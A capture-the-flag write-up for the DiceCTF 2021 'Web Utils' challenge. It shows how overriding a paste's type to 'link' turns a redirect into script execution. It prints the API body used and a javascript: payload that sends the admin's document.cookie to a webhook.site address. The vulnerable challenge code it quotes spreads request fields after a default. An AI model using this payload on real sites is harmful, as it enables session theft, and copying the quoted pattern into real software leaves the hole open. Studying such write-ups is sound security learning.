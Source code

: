 # Web Utils

- CTF: DiceCTF 2021
- Category: Web


## Instructions

My friend made [this dumb tool](https://web-utils.dicec.tf/); can you try and steal his cookies? If you send me a link, [I can pass it along](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils).

Code in the [zip file](app.zip)

This app offers two features:
- Link shortener
- Pastebin

The relevant code is here:

```js
// Create a "paste"
fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)
        .header('Content-Type', 'application/json; charset=utf-8')
        .send({
          statusCode: 200,
          data: uid
        });
    },
    schema: {
      body: {
        type: 'object',
        required: ['data'],
        properties: {
          data: { type: 'string' }
        }
      }
    }
  });
```

```html
<!-- View page -->
<!doctype html>
<html>
<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
<body>
  <div style="font-family: monospace"></div>
</body>
</html>
```

## Analysis

The API endpoint allows you to override the type (paste or link) of what you are sending because the code explode the `req.body` after setting the type:

```js
database.addData({ type: 'paste', ...req.body, uid });
```

So we can create a `link` by sending a body as follow:

`{"data":"My paste data goes here","type":"link"}`

We now have the possibility to have text which is not a URL stored in the database as a link, which means the view page will run the following code:

```js
if (type === 'link') return window.location = data;
```

We can write the following allowing us to steal the admin cookie:

```js
javascript:document.location='https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c='+document.cookie
```

We need to first store the above code as a link:

![Create the link via api](create-link.png)

Once this is created, we can submit the following URL to the admin:

https://web-utils.dicec.tf/view/vXK4PSDY

When the admin visits that link, they will be redirect to our endpoint with the cookie as a query param.

![Flag](flag.png)
